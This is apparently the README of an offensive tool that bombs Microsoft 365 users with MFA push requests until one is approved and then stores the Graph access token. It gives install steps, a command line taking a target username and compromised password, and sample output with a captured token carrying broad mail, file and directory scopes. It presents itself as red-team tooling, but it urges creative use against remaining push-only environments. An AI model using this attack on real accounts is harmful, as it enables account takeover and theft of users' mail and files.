 # Microsoft 365 MFA Bombing Script

This Python script automates the authentication process for Microsoft 365 by using the device code flow and Selenium for automated login.
It keeps bombing the user with MFA requests and stores the access_token once the MFA was approved.

It is intended to be used in Social Engineering / Red-Team / Pentesting scenarios when targeting O365/MS-Online users in Azure (now called Entra ID).

In case a username & password combination was compromised it can be used to flood the authenticator app with authentication requests.
Once the second factor has been approved the valid JWT access_token will be stored in decoded and encoded format locally. The token can be reused in other tools like [TokenTactics](https://github.com/f-bader/TokenTacticsV2), [GraphRunner](https://github.com/dafthack/GraphRunner) or manual requesting different endpoints in Azure...

## Applicability
Microsoft used to offer different MFA authentication mechanisms within their authenticator app like:

- Push Notification Approval
- Time-Based One-Time Password (TOTP)
- Phone Sign-in
- Number Matching
- Passwordless Sign-in

As of May 2023 Microsoft mostly disarmed this fatigue bombing attacks by enforcing the number matching mechanism which require the user to manually enter a two digit number which is presented in the browser as part of the login flow. Generally speaking that breaks simple flooding attacks as only the victim is in possession of the matching number. However one could still retreive the information via real-time social engineering.
If you find environments that still rely on classic push notifications, this attack vector should still work fine. Also I leave it to your own creativity to find applicable scenarios ;-)

## Usage

### Installation

1. Clone this repository.

2. Install the required dependencies by running:

   ```bash
   pip install -r requirements.txt
    ```

### Running the Script
To run the script, execute the following command:

```bash

python m365-fatigue.py --user <username> [--password <password>] [--interval <seconds> (default: 60)]
````

Replace <username> with the target Microsoft 365 username. The password can be provided directly after the --password flag, or the script will prompt for it if not supplied.

The --interval flag allows you to set the polling interval in seconds (default is 60 seconds).

### Sample output

```bash
m365-fatigue python3 m365-fatigue.py --user user@domain.com
Enter your password: 
[*] Username: user@domain.com
[*] Password: ********************************
[*] Device code:
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code GKZAQ433Q to authenticate.
Bei Ihrem Konto anmelden
https://login.microsoftonline.com/common/oauth2/deviceauth
https://login.microsoftonline.com/common/oauth2/deviceauth
Base64 encoded JWT access_token:
eyJ0 ... [dedacted] ... dsgHmA
Decoded JWT payload:
{
    "aud": "https://graph.microsoft.com",
    "iss": "https://sts.windows.net/90931373-6ad6-49cb-9d8c-22eebb6968fa/",
    "iat": 1701428346,
    "nbf": 1701428346,
    "exp": 1701433450,
    "acct": 0,
    "acr": "1",
    "aio": " ... [dedacted] ... ",
    "amr": [
        "pwd",
        "mfa"
    ],
    "app_displayname": "Microsoft Office",
    "appid": " ... [dedacted] ... ",
    "appidacr": "0",
    "family_name": " ... [dedacted] ... ",
    "given_name": " ... [dedacted] ... ",
    "idtyp": "user",
    "ipaddr": " ... [dedacted] ... ",
    "name": " ... [dedacted] ... ",
    "oid": " ... [dedacted] ... ",
    "onprem_sid": " ... [dedacted] ... ",
    "platf": "3",
    "puid": " ... [dedacted] ... ",
    "rh": " ... [dedacted] ... ",
    "scp": "AuditLog.Read.All Calendar.ReadWrite Calendars.Read.Shared Calendars.ReadWrite Contacts.ReadWrite DataLossPreventionPolicy.Evaluate Directory.AccessAsUser.All Directory.Read.All Files.Read Files.Read.All Files.ReadWrite.All Group.Read.All Group.ReadWrite.All InformationProtectionPolicy.Read Mail.ReadWrite Notes.Create Organization.Read.All People.Read People.Read.All Printer.Read.All PrintJob.ReadWriteBasic SensitiveInfoType.Detect SensitiveInfoType.Read.All SensitivityLabel.Evaluate Tasks.ReadWrite TeamMember.ReadWrite.All TeamsTab.ReadWriteForChat User.Read.All User.ReadBasic.All User.ReadWrite Users.Read",
    "sub": " ... [dedacted] ... ",
    "tenant_region_scope": "EU",
    "tid": " ... [dedacted] ... ",
    "unique_name": " ... [dedacted] ... ",
    "upn": " ... [dedacted] ... ",
    "uti": " ... [dedacted] ... ",
    "ver": "1.0",
    "wids": [
        " ... [dedacted] ... "
    ],
    "xms_tcdt":  ... [dedacted] ... ,
    "xms_tdbr": "EU"
}
[*] Successful authentication. Access token expires at: 2023-12-01 12:24:10
[*] Storing token...
Stored Base64 encoded access token as 'access_token_user@domain.com_20231201120406.txt'
Stored decoded access token as 'access_token_user@domain.com_20231201120406.json'
Exiting...
```

## TODO
The fireprox implementation is yet not finished and may or may not be implemented in the future...

# Notes
This script utilizes Selenium, which requires a compatible WebDriver (in this case, Chrome WebDriver... but you can change it towards something else if you need to).

# Credits & Acknowledgements
Heavily inspired by the awesome work of Steve Borosh ([@rvrsh3ll](https://github.com/rvrsh3ll)) and Beau Bullock ([@dafthack](https://github.com/dafthack)). Huge kudos to them for all the awesome research and tooling they release.

# License
This project is licensed under the [MIT License](https://chat.openai.com/c/LICENSE)

